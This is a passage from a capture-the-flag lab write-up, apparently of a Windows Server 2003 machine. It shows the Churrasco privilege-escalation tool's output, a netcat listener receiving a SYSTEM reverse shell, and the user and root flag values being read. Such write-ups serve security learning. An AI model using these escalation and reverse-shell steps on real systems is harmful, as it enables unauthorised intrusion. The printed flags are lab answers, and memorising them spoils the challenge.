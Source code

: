 ```bash
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x66c
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
The system cannot find the path specified.

C:\WINDOWS\TEMP>
```

I had mistakes when I execute churrasco but I recive the shell

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.14] 1047
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

whoami
whoami
nt authority\system

C:\WINDOWS\TEMP>
```

## User Flag

You can enter in harry's directory

```bash
cd Desktop

type user.txt
type user.txt
bdff5ec67c3cff017f2bedc146a5d869
C:\DOCUME~1\Harry\Desktop>
```

## Root Flag

```bash
 Directory of C:\DOCUME~1\Administrator\Desktop

04/12/2017  04:28 PM    <DIR>          .
04/12/2017  04:28 PM    <DIR>          ..
04/12/2017  04:29 PM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)   1,373,999,104 bytes free

type root.txt
type root.txt
9359e905a2c35f861f6a57cecf28bb7b
C:\DOCUME~1\Administrator\Desktop>
```


